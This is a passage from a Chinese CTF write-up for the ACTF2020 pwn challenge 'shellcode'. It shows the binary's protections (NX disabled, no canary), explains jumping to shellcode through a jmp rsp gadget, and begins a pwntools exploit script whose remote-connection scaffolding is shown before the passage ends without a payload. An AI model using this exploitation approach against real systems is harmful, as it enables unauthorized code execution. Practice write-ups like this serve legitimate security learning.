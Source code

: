 p.s.其实`docker`默认的操作系统是`Ubuntu16.04`，但是不可能为了做个题就装个虚拟机吧hhhh



## shellcode

 - 题目描述：Do you know stack ?
 - 题目地址：[shellcode](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/ACTF2020/pwn/shellcode/shellcode)
 - 考察点：shellcode
 - 难度：入门
 - 分值：100
 - 完成人数：3

首先查看一下程序保护：

```shell
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

栈可执行，并且给了`jmp rsp`，因此直接跳到`shellcode`即可：

```python
#!/usr/bin/python
#coding=utf-8
#__author__:TaQini

from pwn import *

local_file  = './shellcode'
local_libc  = '/lib/x86_64-linux-gnu/libc.so.6'
remote_libc = local_libc # '../libc.so.6'

is_local = False
is_remote = False

if len(sys.argv) == 1:
    is_local = True
    p = process(local_file)
    libc = ELF(local_libc)
elif len(sys.argv) > 1:
    is_remote = True
    if len(sys.argv) == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)
    libc = ELF(remote_libc)

elf = ELF(local_file)

context.log_level = 'debug'
context.arch = elf.arch

se      = lambda data               :p.send(data) 
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
```